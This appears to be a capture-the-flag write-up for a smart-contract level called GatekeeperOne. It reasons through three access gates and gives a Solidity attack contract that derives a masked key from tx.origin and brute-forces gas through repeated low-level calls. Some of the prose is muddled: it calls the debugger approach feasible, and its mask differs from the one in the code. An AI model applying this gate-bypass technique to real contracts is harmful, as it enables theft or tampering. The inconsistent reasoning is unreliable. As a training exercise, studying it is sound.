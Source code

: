 ### Analysis
1) Gateone: A basic intermediary contract will be used to call enter, so that msg.sender != tx.origin.
2) Gatetwo: First I could try to use a debugger to walk through each opcode in an enter transaction and carefully add up the required gas to reach the second gate.But gas costs can be dynamic depending on many situations.so this approach is feasible.
A second approach is to brute force transactions on a local blockchain until we get one that works.
3) Gatethree: Should be concerned with only 8 bytes of it since _gateKey is bytes8 (8 byte size) type. And specifically last 8 bytes of it, since uint conversions retain the last bytes.
As the require,we can deduce the key is bytes8(tx.origin)&0xffffffff0000ffff

### The Exploit

~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface IGatekeeperOne{
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatePassOne{
    function pass(address _Gate) public returns (bool){
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0x0000ffff0000ffff;

        // IGatekeeperOne gate = IGatekeeperOne(_Gate);
        for (uint256 i=0;i<1000;i++){
            // (bool success) = gate.enter{gas: i + (8191 * 3)}(key);
            (bool success, ) = address(_Gate).call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success){
                break;
            }
        }
    }
}
~~~